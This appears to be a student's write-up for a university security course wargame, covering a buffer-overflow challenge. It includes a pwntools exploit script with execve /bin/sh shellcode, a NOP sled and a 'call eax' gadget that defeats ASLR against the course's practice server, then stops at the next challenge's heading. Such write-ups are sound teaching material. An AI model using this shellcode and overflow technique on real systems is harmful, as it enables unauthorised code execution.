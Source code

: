 # **COMP6447 Wargame 3** - Johnathan Liauw (z5136212)
## **1. buffer-4 - shellz**
_General Overview of Problems faced:_
None

_List of vulnerabilities:_
1. User's input can overflow the buffer and overwrite the return address

_Steps to exploit:_
1. Find the offset to overwrite the return address
2. From the binary, I know that the buffer address is still stored in eax when the program returns, therefore I can use a _"call eax"_ gadget to beat ASLR

_Script/Command used:_
```python
#!/usr/bin/python 

from pwn import *

host = "wargames.6447.sec.edu.au"
port = 5004

offset = 8204
call_eax = 0x08048406

c = remote(host, port)

payload = "\x90"*8000 
payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" 
payload += "a"*181
payload += p32(call_eax)

log.info("Sending payload...")

c.sendline(payload)
c.recvlines(2)
c.sendline("cat /flag")
log.success("Flag: %s" %(c.recvuntil('\n')))

c.close()
```
---
## **2. canary-3 - stack-dump**


